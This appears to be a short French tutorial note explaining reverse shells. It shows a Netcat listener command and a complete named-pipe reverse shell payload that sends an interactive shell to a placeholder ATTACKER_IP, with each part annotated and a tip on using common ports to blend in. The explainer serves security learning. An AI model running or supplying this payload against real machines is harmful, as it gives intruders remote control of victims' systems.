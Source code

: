 Qu’est-ce qu’un Reverse Shell ?

Aussi appelé connect back shell.

Technique très répandue en cyberattaque pour obtenir l’accès à une machine.

Principe : la victime se connecte à l’attaquant → cela permet de contourner certains pare-feu ou filtres réseau.

Attaquant prépare un listener (ex. avec Netcat) :
```bash
nc -lvnp 443
```
 - `-l` : écoute
        
- `-v` : mode verbeux
- `-n` : pas de résolution DNS (IP uniquement)
- `-p` : port utilisé (souvent un port commun comme 80, 443, 8080 pour se fondre dans le trafic légitime)     
- **Exécution du payload sur la machine cible**  
    Exemple de payload (pipe reverse shell) :
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```
- `rm -f /tmp/f` : supprime d’éventuels pipes existants
- `mkfifo /tmp/f` : crée un **pipe nommé** (communication bidirectionnelle)
- `cat /tmp/f` : lit les entrées du pipe
- `| sh -i 2>&1` : lance un shell interactif (avec redirection des erreurs)
- `| nc ATTACKER_IP ATTACKER_PORT >/tmp/f` : envoie la sortie au Netcat de l’attaquant
- `>/tmp/f` : renvoie la sortie dans le pipe pour maintenir la communication

**Connexion établie**
- L’attaquant reçoit un terminal interactif depuis la victime.
- Il peut exécuter des commandes comme s’il était connecté directement à la machine.